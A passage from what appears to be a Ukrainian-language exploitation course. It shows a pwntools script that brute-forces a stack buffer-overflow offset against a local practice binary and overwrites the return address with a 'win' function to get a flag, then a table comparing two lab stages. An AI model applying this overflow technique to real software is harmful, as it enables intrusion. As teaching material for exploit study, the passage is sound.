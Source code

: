 ### Завдання 3: Динамічне знаходження offset (brute-force)

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'error'  # Вимкнути багатослівність

elf = ELF('../build/stage05_demo_with_hint', checksec=False)
win = elf.symbols['win']

# Перебираємо можливі offset
for offset in range(50, 100, 4):  # Крок 4 (вирівнювання)
    io = process('../build/stage05_demo_with_hint')

    payload = b'A' * offset + p64(win)
    io.send(payload)

    try:
        output = io.recvall(timeout=0.5).decode()
        if 'FLAG' in output:
            print(f"[+] Знайдено offset: {offset}")
            print(f"[+] {output.strip()}")
            break
        elif 'NEED' in output:
            need = output.strip()
            print(f"[*] Offset {offset}: {need}")
    except:
        pass

    io.close()
```

## 💡 Порівняння з Stage 04

| Аспект | Stage 04 | Stage 05 |
|--------|----------|----------|
| Вразливість | Пряме читання в fp | Buffer overflow |
| Offset | Не потрібен | 72 байти |
| Розмір payload | 8 байт | 80 байт |
| Padding | Немає | 72 байти 'A' |
| Підказки | Немає | NEED=N |
| Складність | ⭐☆☆☆☆ | ⭐⭐☆☆☆ |

## 🔐 Зв'язок з реальним BOF

### Різниця з реальним buffer overflow
